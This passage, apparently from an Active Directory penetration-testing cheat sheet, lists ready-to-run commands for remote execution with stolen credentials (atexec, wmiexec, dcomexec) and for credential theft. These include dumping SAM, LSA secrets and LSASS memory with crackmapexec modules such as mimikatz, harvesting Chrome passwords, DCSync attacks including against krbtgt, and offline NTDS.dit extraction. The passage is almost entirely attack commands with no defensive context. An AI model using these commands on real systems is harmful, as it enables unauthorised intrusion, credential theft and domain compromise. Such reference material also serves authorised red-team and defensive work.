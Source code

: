 ```bash
atexec.py domain.local/user1:password@<target> <command>
```

### WMI

```bash
wmiexec.py domain.local/user1:password@<target>
```

### ShellBrowserWindow DCOM object

```bash
dcomexec.py domain.local/user1:password@<target>
```

### Credentials gathering

#### Check RunAsPPL

Check if RunAsPPL is enabled in the registry.

```bash
crackmapexec smb <target> -u user1 -p password -M runasppl
```

#### Dump creds remotely

```bash
#Dump SAM database on a machine
crackmapexec smb <target> -u user1 -p password --sam

#Dump LSA secrets on a machine
crackmapexec smb <target> -u user1 -p password --lsa

#Dump the lsass process and parse it
crackmapexec smb <target> -u user1 -p password -M lsassy
crackmapexec smb <target> -u user1 -p password -M nanodump
crackmapexec smb <target> -u user1 -p password -M mimikatz
crackmapexec smb <target> -u user1 -p password -M procdump

#Retrieve Chrome passwords
crackmapexec smb <target> -u user1 -p password -M enum_chrome

#Make a DCSync attack on all the users (NT hashes, Kerberos AES key, etc)
secretsdump.py domain.local/user1:password@<DC>

#DCSync only the NT && LM hashes of a user
secretsdump.py -just-dc-user 'krbtgt' -just-dc-ntlm domain.local/user1:password@<DC>
```

#### Extract creds locally

```bash
#Extract creds from SAM, SYSTEM and SECURITY
secretsdump.py -system ./system.save -sam ./sam.save -security ./security.save LOCAL

#Extract creds from NTDS.dit
secretsdump.py -ntds ./NTDS.save LOCAL
```
